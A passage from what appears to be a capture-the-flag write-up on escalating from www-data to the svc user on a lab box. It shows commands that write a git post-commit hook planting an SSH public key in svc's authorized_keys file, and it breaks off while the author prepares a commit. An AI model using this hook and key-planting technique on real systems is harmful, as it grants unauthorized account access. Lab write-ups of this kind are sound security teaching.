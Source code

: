 

www-data has read, write, and execute. There's no where else in `image`
that www-data can write:



    www-data@encoding:~/image$ find . -path ./.git -prune -o -writable -print
    www-data@encoding:~/image$ 



### Execution

#### Strategy

With write access to the `.git` folder, I have access to mess with a lot
of configuration for the repo. With the `sudo` configuration, I can add
and commit files to the repo. There are probably many ways to get
execution from this setup.

One way is to use a post-commit hook, which is a script that runs when
files are committed. To commit, I'll need modified files. Typically
files are only added to the repo from within the directory containing
the `.git` directory (and any subfolders). I'll modify git to allow
files from other locations, and then trigger the commit using the
script.

#### Add Hook

This `echo` line pipped into `tee` will write a `bash` script to
`.git/hooks/post-commit`:



    www-data@encoding:~/image$ echo -e 'mkdir -p /home/svc/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/svc/.ssh/authorized_keys\nchmod 600 /home/svc/.ssh/authorized_keys' | tee .git/hooks/post-commit        
    mkdir -p /home/svc/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/svc/.ssh/authorized_keys
    chmod 600 /home/svc/.ssh/authorized_keys
    www-data@encoding:~/image$ chmod +x .git/hooks/post-commit



I'll also set it executable. This script writes a public SSH key into
svc's `authorized_keys` file.

#### Make Changes

In order to commit, I'll need to have some changes in the repo. Changes
in the `.git` folder do not count, as that's metadata about the repo.



    www-data@encoding:~/image$ git status
    On branch master
    nothing to commit, working tree clean
